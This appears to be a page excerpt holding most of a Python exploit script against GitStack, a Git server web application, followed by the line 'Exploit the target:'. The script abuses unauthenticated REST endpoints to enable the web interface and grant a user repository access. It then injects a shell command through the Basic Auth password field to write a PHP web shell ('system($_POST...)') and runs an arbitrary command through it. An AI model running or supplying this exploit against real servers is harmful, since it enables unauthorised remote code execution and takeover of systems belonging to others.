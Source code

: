 ```python
else:
	print("[+] Enable web repository")
	r = requests.put("http://{}/rest/settings/general/webinterface/".format(ip), data='{"enabled" : "true"}')
	if not "Web interface successfully enabled" in r.text:
		print("[-] Cannot enable web interface")
		os._exit(0)

print("[+] Get repositories list")
r = requests.get("http://{}/rest/repository/".format(ip))
repository_list = r.json()

if len(repository_list) > 0:
	repository = repository_list[0]['name']
	print("[+] Found repository {}".format(repository))
else:
	print("[+] Create repository")

	r = requests.post("http://{}/rest/repository/".format(ip), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
	if not "The repository has been successfully created" in r.text and not "Repository already exist" in r.text:
		print("[-] Cannot create repository")
		os._exit(0)

print("[+] Add user to repository")
r = requests.post("http://{}/rest/repository/{}/user/{}/".format(ip, repository, username))

if not "added to" in r.text and not "has already" in r.text:
	print("[-] Cannot add user to repository")
	os._exit(0)	

print("[+] Disable access for anyone")
r = requests.delete("http://{}/rest/repository/{}/user/{}/".format(ip, repository, "everyone"))

if not "everyone removed from rce" in r.text and not "not in list" in r.text:
	print("[-] Cannot remove access for anyone")
	os._exit(0)	

print("[+] Create backdoor in PHP")
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit-unknown.php'))
print(r.text.encode(sys.stdout.encoding, errors='replace'))

print("[+] Execute command")
r = requests.post("http://{}/web/exploit-unknown.php".format(ip), data={'a' : command})
print(r.text.encode(sys.stdout.encoding, errors='replace'))
```

Exploit the target:
